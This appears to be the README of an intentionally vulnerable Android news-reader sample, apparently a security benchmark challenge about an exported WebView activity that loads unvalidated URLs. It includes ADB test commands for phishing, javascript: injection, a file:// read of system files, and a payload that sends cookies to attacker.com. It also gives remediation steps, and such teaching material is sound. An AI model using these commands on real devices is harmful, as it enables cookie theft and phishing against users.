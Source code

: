 # oxo-android-ben18 News Reader App

## Challenge Details

### Description

This Android app sample demonstrates a news reader application with a critical WebView malicious URL vulnerability:

- The app provides a comprehensive news reading experience with multiple sections including article viewing, user profiles, settings, and premium content.
- The vulnerability exists in the `ArticleViewerActivity` which is exported and accepts URLs from external sources without proper validation.
- Any third-party app can launch this activity and load arbitrary URLs, including malicious sites, JavaScript payloads, or local files.
- The WebView component has JavaScript enabled and file access permissions, making it susceptible to various web-based attacks.
- This creates opportunities for phishing attacks, cross-site scripting (XSS), data exfiltration, and unauthorized access to local device resources.

The app showcases a realistic mobile news application that appears legitimate while containing a severe security flaw in URL handling.

### Vulnerability Type and Category

- **Type:** WebView Malicious URL Loading / Exported Activity Vulnerability
- **Category:** Improper Input Validation, Insecure WebView Configuration, Intent-based Security Bypass

### Attack Vector: Exported Activity with Direct URL Loading

This vulnerability occurs when an Android activity with `android:exported="true"` directly loads URLs from intent extras without validation. The specific attack characteristics include:

#### Key Vulnerability Components:
- **Exported Activity**: `ArticleViewerActivity` is marked as exported and accessible by external applications
- **Intent Filter**: Activity accepts `android.intent.action.VIEW` with browsable category
- **Direct URL Loading**: WebView directly loads URLs from `getStringExtra("url")` without validation
- **No Security Checks**: No allowlist, domain validation, or URL sanitization
- **Dangerous WebView Settings**: JavaScript enabled, file access enabled, DOM storage enabled

#### Exploitation Methods:
1. **Malicious Website Loading**: Load phishing sites or malware distribution pages
2. **JavaScript Injection**: Execute malicious JavaScript via `javascript:` URLs
3. **Local File Access**: Potentially read local files using `file://` protocol
4. **Phishing Attacks**: Display fake login pages with convincing titles
5. **Cross-Site Scripting**: Inject scripts that can access app context and data

### Difficulty

Medium

## Testing the Vulnerability

### Prerequisites
- Android device or emulator with the app installed
- ADB (Android Debug Bridge) installed and device connected

### Vulnerability Test Commands

#### Basic Malicious URL Test
```bash
adb shell am start -n co.ostorlab.myapplication/.ArticleViewerActivity -e url "http://google.com"
```

#### Phishing Attack Simulation
```bash
adb shell am start -n co.ostorlab.myapplication/.ArticleViewerActivity -e url "http://fake-banking-site.com" -e article_title "Important Security Update"
```

#### JavaScript Injection Test
```bash
adb shell am start -n co.ostorlab.myapplication/.ArticleViewerActivity -e url "javascript:alert('XSS Vulnerability Confirmed')"
```

#### Local File Access Test
```bash
adb shell am start -n co.ostorlab.myapplication/.ArticleViewerActivity -e url "file:///system/etc/hosts"
```

#### Data Exfiltration Simulation
```bash
adb shell am start -n co.ostorlab.myapplication/.ArticleViewerActivity -e url "javascript:location.href='http://attacker.com/steal?data='+document.cookie"
```

### Expected Behavior
- The app should launch the ArticleViewerActivity without any validation
- Malicious URLs should load directly in the WebView component
- JavaScript payloads should execute within the app context
- No security warnings or URL validation should occur
- The vulnerability allows complete bypass of the app's intended URL restrictions

### Remediation
To fix this vulnerability:
1. Add URL validation and allowlisting for trusted domains
2. Disable JavaScript in WebView unless absolutely necessary
3. Restrict file access permissions
4. Validate and sanitize all intent parameters
5. Consider making the activity non-exported if external access isn't required

## Build Instructions

This sample project uses Android Studio with Kotlin and AndroidX libraries.

- Open the project in Android Studio.
- Update your SDK versions as required (compileSdkVersion >= 31 recommended).
- Ensure all dependencies are properly configured in the Gradle files.
- Build and deploy the app on an emulator or an Android device.
- The app will launch with the main news feed and allow navigation between different sections.
- Use the ADB commands above to test the vulnerability.
